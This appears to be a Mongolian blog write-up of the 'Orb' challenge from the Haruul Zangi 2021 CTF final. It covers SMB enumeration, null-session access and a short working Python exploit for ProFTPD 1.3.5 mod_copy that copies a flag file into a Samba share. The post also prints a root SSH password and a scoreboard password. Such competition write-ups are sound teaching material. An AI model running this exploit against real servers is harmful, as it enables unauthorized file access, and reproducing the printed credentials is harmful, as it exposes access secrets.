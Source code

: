 ```yaml
---
published: true
---
```

# HZ 2021 Final Round Orb

![visitor badge](https://visitor-badge.laobi.icu/badge?page_id=keyword&title=зочилсон-хүмүүсийн-тоо)
<p align="center">
  
  <img src="https://raw.githubusercontent.com/fg0d/fg0d.github.io/master/photos/hzz.png">
</p>

"Харуул Занги 2021" амжилттай болж өндөрлөлөө. Миний бие энэ жил **AnonSec** багаас хоёр найзтайгаа хамт оролцсон бөгөөд 1-р шатанд 3-р байранд , 2-р шатанд 5-р байранд орсон билээ. Энэ жил өмнө жилийн тэмцээнийг сонирхолтой болгож өгсөн зүйл нь Финалын шат "Attack And Defense" төрлөөр явагдсан. Манай баг төдийлөн өндөр амжилт үзүүлж чадаагүй ч гэсэн өөрсдийн бодсон бодлогоо тайлбартайгаар хүргэх нь зүйтэй болов уу гэж бодлоо.

## Orb

Финалын шатанд баг бүрт тусдаа **Docker** үүсгэж өгсөн учраас эхлээд SSH-ээр хандаж орох хэрэгтэй болсон

Жишээ нь: **Манай багийн SSH login хэсэг**

Багийн нэр: **AnonSec**
<br>
Манай багийн domain: **hz-vulbox3.haruulzangi.mn**
<br>
SSH username: **root**
<br>
SSH password: **u3RYQMZDaAg4bEEq6SmLOi**
<br>
[Онооны самбар харах , флагаа оруулах хэсэг:](http://final.haruulzangi.mn:19999/)
<br>
"Нэвтрэх нэр": **AnonSec**
<br>
"Нууц үг": **5Ft1ELGZOqUI87W4**

Үүний дараа бид challenge бүрийн docker-н мэдээллийг харахын тулд энэхүү тушаалыг ашиглах боломжтой

root@ip-10-10-20-23:~# **docker ps -a**

`e57944a41e96   orb             "/tmp/entrypoint.sh …"   9 hours ago    Up 6 hours   0.0.0.0:21->21/tcp, :::21->21/tcp, 0.0.0.0:139->139/tcp, :::139->139/tcp, 0.0.0.0:445->445/tcp, :::445->445/tcp, 0.0.0.0:2205->22/tcp, :::2205->22/tcp   orb`

Тушаалыг бичсэнээр бид нар **Orb** даалгаварлуу **bash shell** -ээр орж байгаа юм.

root@ip-10-10-20-23:~# **docker exec -it orb /bin/bash**

Орсны дараа файлуудыг нэг бүрчлэн туршиж үзэхэд **ProFTPd** , **Samba** гэсэн хоёр танил сервис байхыг харж болно. 

`Samba буюу SMB нь 445 , 139-р портон дээр ажилладаг файл хуваалцах боломжыг бүрдүүлдэг протокол`

`ProFTPd буюу FTP нь 21-р портон дээр ажилладаг файл дамжуулах боломжыг бүрдүүлдэг протокол`

> SMB дээр Null session үүсгэж нууц үг шаардлагүйгээр хандалт хийх боломжтой эмзэг байдал байдаг

> ProFTPd дээр хамгийн сайн мэдэх mod_copy эмзэг байдал байдаг

Одоо тэгвэл энэхүү хоёр сервисын уялдаа холбоог жаахан ойлгох хэрэг гарна. Эхлээд юуг ашиглаж болох вэ гэхээр:

SMB-г **Enumeration** хийж мэдээлэл цуглуулах хэрэгтэй.

`$IP = '18.162.113.173'`

`enum4linux -A $IP`

ингэснээр ямар хэрэглэгчид байгаа мэдээллийг , мөн default-аар байгаа бол шууд нууц үгийг олох боломжтой байдаг

`yondu`

`gamora`

`nebula`

гэсэн 3 хэрэглэгч олдлоо

Тэгвэл энэхүү 3 хэрэглэгчрүү ороход бидний Permission хүрэх үү? **Access** хийж чадах уу гэдгийг шалгахын тулд:

`$IP = '18.162.113.173'`

`smbmap -H 18.162.113.173`

|print$          |Disk      |Printer Drivers|
|----------------|----------|---------------|
|yondu           |Disk      |/samba/ is a nice planet to place orb ( Admin access )|
|gamora          |Disk      |Where is the orb? ( Admin access )|
|nebula          |Disk      |Why is gamora? ( Free access )|
|IPC$            |IPC       |IPC Service (e57944a41e96 server (Samba, Ubuntu))|
    
үүнээс харвал **nebula** хэрэглэгчрүү нэвтрэхэд **Free access**-тай буюу **Null session** үүсгэх боломжтой байгааг харж болно.

`smbclient //18.162.113.173/nebula`

нууц үг шаардлагагүй шууд **Enter** дараад орно

Энэ маань бидний файлаа хуулаад тавихад харах боломжтой хэрэглэгч гэж ойлгож болно.

За одоо ProFTPd-гээр үндсэн **flag** файлаа mod_copy хийж **nebula** хэрэглэгчрүү хуулах шаардлага үүсэж байгаа

IP-гаар нь скан хийж үзвэл:

`21/tcp   open   ftp         ProFTPD 1.3.5`

ProFTPd 1.3.5 хувилбар байсан бөгөөд Exploit-н хайж үзвэл

[Exploit хийх линк](https://www.exploit-db.com/exploits/36742)  энэхүү линкээр ороод үзэж болно

Шууд энэхүү exploit-г ажиллуулах боломжгүй бөгөөд үүнийг скрипт болгоод бага зэрэг өөрчлөлт оруулвал

```python
import sys
import socket
import requests

def exploit(client, target):
    client.connect((target,21)) # Connecting to the target server
    banner = client.recv(74)
    print(banner.decode())
    client.send(b'site cpfr /flag\r\n')
    print(client.recv(1024).decode())
    client.send(b'site cpto /samba/nebula/flag.txt\r\n')
    print(client.recv(1024).decode())
    client.close()
    print('Exploit Completed')

def check(url):
    req = requests.get(url) # Requesting the written PoC php file via HTTP
    if req.status_code == 200:
        print('[+] File Written Successfully')
        print(f'[+] Go to : {url}')
    else:
        print('[!] Something Went Wrong')
        print('[!] Directory might not be writable')

def main():
    client = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    target = sys.argv[1]
    exploit(client, target)
    url = 'http://' + target + '/test.php'
    check(url)

if __name__ == '__main__':
    main()
```

**Exploit completed** болсоны дараа **smbclient**-аар орсон **nebula** хэрэглэгчээр ороод **dir** тушаалыг биелүүлэхэд **flag** хуулагдсан байх болно

<p align="center">
  <img src="https://raw.githubusercontent.com/fg0d/fg0d.github.io/master/photos/flag.PNG">
</p>
